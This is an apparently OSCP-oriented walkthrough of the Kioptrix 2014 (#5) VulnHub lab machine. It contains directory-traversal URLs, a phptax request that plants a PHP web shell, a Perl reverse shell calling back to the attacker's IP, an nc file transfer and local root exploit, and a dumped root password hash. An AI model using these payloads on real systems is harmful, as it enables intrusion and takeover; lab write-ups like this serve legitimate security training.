


# [[VulnHub] Kioptrix: 2014 (#5)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)

**Date**: 09/Oct/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_pchart`](https://github.com/7h3rAm/writeups#exploit_pchart), [`exploit_phptax`](https://github.com/7h3rAm/writeups#exploit_phptax), [`privesc_freebsd`](https://github.com/7h3rAm/writeups#privesc_freebsd)  

## Overview
This is a writeup for VulnHub VM [`Kioptrix: 2014 (#5)`](https://www.vulnhub.com/entry/kioptrix-2014-5,62/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Wed Oct  9 12:11:53 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.kioptrix5/results/192.168.92.185/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.kioptrix5/results/192.168.92.185/scans/xml/_quick_tcp_nmap.xml 192.168.92.185
Nmap scan report for 192.168.92.185
Host is up, received arp-response (0.00043s latency).
Scanned at 2019-10-09 12:11:53 PDT for 35s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE REASON         VERSION
22/tcp   closed ssh     reset ttl 64
80/tcp   open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
| http-methods: 
|_  Supported Methods: HEAD
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:0B:79:90 (VMware)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  9 12:12:28 2019 -- 1 IP address (1 host up) scanned in 35.43 seconds

```

2\. While exploring the `80/tcp` service, we find a HTML comment that points to `pChart2.1.3/index.php`:  

  

  

  


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp    |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
8080/tcp  |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
```

\newpage
## Phase #2: Exploitation
1\. We use `searchsploit` to look for `pChart` exploits and find a directory traversal exploit. We use this exploit to view the contents of the `/etc/passwd` file:  
``` {.python .numberLines}
searchsploit pchart
searchsploit -x 31173
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd

```

  

  

  

2\. We use the directory traversal vulnerability to look for the Apache configuration file as `8080/tcp` is returning a `403 Forbidden` code:  
``` {.python .numberLines}
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../usr/local/etc/apache22/httpd.conf
  SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser
  
  <VirtualHost *:8080>
      DocumentRoot /usr/local/www/apache22/data2
  
  <Directory "/usr/local/www/apache22/data2">
      Options Indexes FollowSymLinks
      AllowOverride All
      Order allow,deny
      Allow from env=Mozilla4_browser
  </Directory>

```

  

3\. The web server is configured to only allow clients with a user-agent string starting with the `Mozilla/4.0` string. We use Burp proxy to make a request to the `8080/tcp` service:  

  

4\. Now that we can talk to the `8080/tcp` service, we find a reference to the `/phptax/` web application on this server. We find a remote code execution vulnerability for `phptax` and leverage it to get command execution:  
``` {.python .numberLines}
searchsploit phptax
searchsploit -x 25849
GET /phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E HTTP/1.1
  Host: 192.168.92.185:8080
  User-Agent: Mozilla/4.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
GET /phptax/data/rce.php?cmd=uname%20-a HTTP/1.1
  Host: 192.168.92.185:8080

```

  

  

  

  

5\. We find that the remote system is FreeBSD 9. We tried Bash and Python reverse shells but both failed and as such we fall back on a [Perl reverse shell](https://www.phillips321.co.uk/2012/02/05/reverse-shell-cheat-sheet/) for interactive access:  
``` {.python .numberLines}
perl reverse shell (decoded): perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.92.183:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl reverse shell (url encoded): perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27

nc -nlvp 443
GET /phptax/data/rce.php?cmd=perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27 HTTP/1.1
  Host: 192.168.92.185:8080

```

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
www@kioptrix2014> id
uid=80(www) gid=80(www) groups=80(www)
www@kioptrix2014>  
www@kioptrix2014> uname
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
www@kioptrix2014>  
www@kioptrix2014> ifconfig
em0:  flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
      options=9b<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,VLAN_HWCSUM>
      ether 00:0c:29:0b:79:90
      inet 192.168.92.185 netmask 0xffffff00 broadcast 192.168.92.255
      nd6 options=29<PERFORMNUD,IFDISABLED,AUTO_LINKLOCAL>
      media: Ethernet autoselect (1000baseT <full-duplex>)
      status: active
www@kioptrix2014>  
www@kioptrix2014> users
root
toor
```

\newpage
## Phase #3: Privilege Escalation
1\. While exploring the system, we look for privilege escalation exploits for FreeBSD 9 and find two hits. Since the target system doesn't have `wget` or `curl` we fallback on `nc` to download the exploit file. Once compiled, we execute the exploit and get elevated access:  
``` {.python .numberLines}
searchsploit freebsd 9.0
searchsploit -x 28718
nc -nlvp 9999 <28718.c
nc 192.168.92.183 9999 >28718.c
gcc -o 28718 28718.c
./28718

```

  

  

  

  

  

2\. We can now view the `congrats.txt` file to complete the challenge:  
``` {.python .numberLines}
cat /root/congrats.txt

```

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$1$DdHlo6rh$usiPcDoTR37eL7DAyLjhk1:0:0::0:0:Charlie &:..............
```

## References
[+] <https://www.vulnhub.com/entry/kioptrix-2014-5,62/>  
[+] <https://www.abatchy.com/2017/01/kioptrix-2014-5-walkthrough-vulnhub.html>  
[+] <https://jhalon.github.io/vulnhub-kioptrix5/>  
